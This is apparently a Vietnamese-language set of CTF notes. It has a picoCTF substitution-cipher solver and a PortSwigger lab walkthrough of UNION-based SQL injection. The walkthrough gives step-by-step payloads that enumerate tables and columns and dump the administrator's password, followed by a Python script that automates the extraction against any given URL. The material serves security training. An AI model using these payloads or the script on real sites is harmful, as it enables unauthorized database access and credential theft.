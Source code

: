 # Cryptography  
## picoCtf
substitution0 https://play.picoctf.org/practice/challenge/307?page=1&search=substitu
Cách giải: 
- Đây là mật mã thay thế.
- 26 kí tự đầu tiên sẽ là khóa.


- from string import *
- with open("message.txt") as file:
-    content = file.read()
- upper_key = "QWITJSYHXCNDFERMUKGOPVALBZ"
- lower_key = upper_key.lower()
- for character in content:
-     if character.isupper():
-         print(ascii_uppercase[upper_key.index(character)],end = "")
-     elif character.islower():
-         print(ascii_lowercase[lower_key.index(character)],end = "")
-     else: 
-         print(character,end = "")

#Web
## portwSwigger
### SQL Injection - Lab #9 SQL injection attack, listing the database contents on non Oracle databases
- https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
1. Xác định số cột của database: ' order by 1--
- https://0a2200c8030727a2c633e1d0005c006d.web-security-academy.net/filter?category=Accessories%27%20order%20by%201--
- Tăng số lần lượt từ 1 cho đến khi web trả về lỗi. Từ đó xác định được số cột trong database.(2 cột)
2. Xác định kiểu dữ liệu của cột.
- ' UNION select 'a',NULL-- 
- ' UNION select 'a','a'--
- -> cả hai cột dữ liệu là kiểu text.
3. Xác định phiên bản của database.
- ' UNION select version(),NULL--       =>PostgreSQL
4. Lấy được danh sách tên cột của database.
- ' UNION select table_name, NULL FROM  information_schema.tables--
- (lên mạng gõ information_schema.tables sau đó tìm ra được table_name)  
5. In ra tên của bảng.
- ' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = 'users_wahylc'--
- (users_wahylc tùy thuộc vào từng bài).
- password_qlrxps     username_msmtmu
6. In ra username và password.
- ' UNION select username_msmtmu, password_qlrxps from users_wahylc--
- administrator   c05fnpuhr9l97equdrn2

-import requests 
- import urllib3
- from bs4 import BeautifulSoup
- import re  
- import sys 
- import warnings
- warnings.filterwarnings("ignore", category=DeprecationWarning) 
- urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
- proxies = {'http': 'http://127.0.0.1:8080','https' : 'https://127.0.0.1:8080'}
- def perform_request(url,sql_payload):
-     path = '/filter?category=Accessories'
-     r = requests.get(url + path + sql_payload,verify = False,proxies = proxies)
-     return r.text 
- def sqli_users_table(url):
-     sql_payload = "' UNION select table_name, NULL FROM  information_schema.tables--"
-    res = perform_request(url,sql_payload)
-    soup  = BeautifulSoup(res,'html.parser')
-    users_table = soup.find(text = re.compile(".*users.*"))
-    if users_table: 
-        return users_table
-    else: 
-        return False 
-def sqli_users_columns(url,users_table): 
-    sql_payload = "' UNION select column_name, NULL FROM  information_schema.columns WHERE table_name = '%s'--" %users_table
-    res = perform_request(url,sql_payload)
-    soup = BeautifulSoup(res,'html.parser')
-    username_column = soup.find(text = re.compile('.*username.*'))
-    password_column = soup.find(text = re.compile('.*password.*'))
-    return username_column,password_column
-def sqli_administrator_cred(url,users_table,username_column,password_column):
-    sql_payload = "' UNION select %s, %s from %s--" % (username_column,password_column,users_table)
-    res = perform_request(url,sql_payload)
-    soup = BeautifulSoup(res,'html.parser')
-    admin_password = soup.body.find(text = "administrator").parent.findNext('td').contents[0] 
-    return admin_password
-if __name__ == "__main__":
-    try: 
-        url = sys.argv[1].strip()
-    except IndexError: 
-        print("[-] Usage: %s <url>" %sys.argv[0])
-        print("[-] Example: %s www.example.com" %sys.argv[0])
-        sys.exit(-1)
-    print("Looking for a users table....")
-    users_table = sqli_users_table(url)
-    if users_table:
-        print("Found the users table name: %s" %users_table)
-        username_column,password_column = sqli_users_columns(url,users_table)
-        if username_column and  password_column:
-            print("Found the username column name: %s", username_column)
-            print("Found the password column name: %s", password_column)
-            admin_password = sqli_administrator_cred(url,users_table,username_column,password_column)
-            if admin_password: 
-                print("[+] The administrator password is: %s" %admin_password) 
-            else: 
-                print("[-] Did not find the administrator password.")
-        else: 
-            print("Did not find the username and/ or the password columns.")
-    else: 
-        print("Did not find a users table.")